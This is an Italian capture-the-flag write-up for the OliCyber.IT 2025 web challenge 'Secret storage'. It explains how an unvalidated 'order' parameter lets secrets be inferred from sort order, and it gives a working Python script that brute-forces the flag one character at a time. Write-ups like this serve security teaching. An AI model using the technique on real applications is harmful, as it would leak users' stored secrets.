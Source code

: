 # OliCyber.IT 2025 - Selezione territoriale

## [web] Secret storage (23 risoluzioni)

Ho appena creato un'utilissima applicazione, che ti permette di salvare segreti.... e non vederli mai più

:)

Site: [http://secret-storage.challs.territoriali.olicyber.it](http://secret-storage.challs.territoriali.olicyber.it)

Autore: Lorenzo Leonardini <@pianka>

## Panoramica

Il sito è molto semplice, permette di creare un account, creare segreti, e visualizzare la lista di segreti. Al momento della registrazione tra i nostri segreti viene inserita la flag.

Un'altra funzionalità importante è che la lista di segreti può essere ordinata secondo diverse colonne.

## Soluzione

Il server non valida in nessun modo il campo `order` quando lo utilizza per ordinare nella query a database. Questo significa che possiamo usare il `campo` secret per ordinare e ottenere informazioni sulla flag.

Se, per esempio, inseriamo due segreti `e` e `g`, e ordiniamo per `secret`, avremo come ordine `e`, `flag`, `g`. Questo perché sappiamo che la flag inizia con `flag{`.

## Exploit

Possiamo scrivere uno script che effettua il bruteforce di un carattere alla volta per vedere come si posiziona `flag` tra i risultati. Una soluzione più ottimizzata può sfruttare una ricerca binaria.

```py
import requests
import string

flag = ''
while len(flag) == 0 or flag[-1] != '}':
    s = requests.Session()
    res = s.post(f'{URL}')

    # we use a _ in front of the characters we are testing in order to differentiate it from "flag"
    for c in string.printable[:-6]:
        res = s.post(f'{URL}', data={
            'name': f'_{flag}{c}',
            'secret': f'{flag}{c}'
        })

    content = s.get(f'{URL}?order=secret').text
    table = content.split('<tbody>')[1]
    rows = table.split('<tr>')[1:]

    index = next(i for i,v in enumerate(rows) if '>flag</td>' in v)
    flag = rows[index - 1].split('>_')[1].split('</td>')[0]

    # if it is the last char, the order might be wrong, let's see if we are at the }
    attempt = rows[index + 1].split('>_')[1].split('</td>')[0]
    if attempt[-1] == '}':
        flag = attempt

    print(flag)
```